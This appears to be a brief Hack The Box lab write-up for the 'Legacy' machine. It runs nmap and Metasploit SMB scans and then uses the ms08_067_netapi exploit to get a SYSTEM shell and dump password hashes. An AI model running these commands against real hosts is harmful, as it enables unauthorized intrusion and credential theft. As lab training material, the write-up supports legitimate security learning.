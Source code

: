 HTB - 1. Legacy

1. `nmap -A -T4 -p- 10.10.10.4` shows 139 and 445 open, running Windows XP, computer name LEGACY, message_signing disabled.
2. `smbclient -L \\10.10.10.4\\` no connection
3. Metasplot
	```
	sudo msfconsole
	search smb_version
	use auxiliary/scanner/smb/smb_version
	options
	set rhosts 10.10.10.4
	exploit
	```
	Result: running Windows XP SP3
4. Search `smb windows xp sp3 exploit` found https://www.rapid7.com/db/modules/exploit/windows/smb/ms08_067_netapi
5. Metasplot Exploit
	```
	use exploit/windows/smb/ms08_067_netapi
	set rhosts 10.10.10.4
	run
	getuid
	sysinfo
	help
	hashdump
	shell
	``` 
	Result: shell spawned at NT AUTHORITY\SYTEM (root equivalent)
	`hashdump` gives password hashes
	Admin Flag at `C:\Documents and Settings\Administrator\Desktop\root.txt`
	User Flag at `C:\Documents and Settings\john\Desktop\user.txt`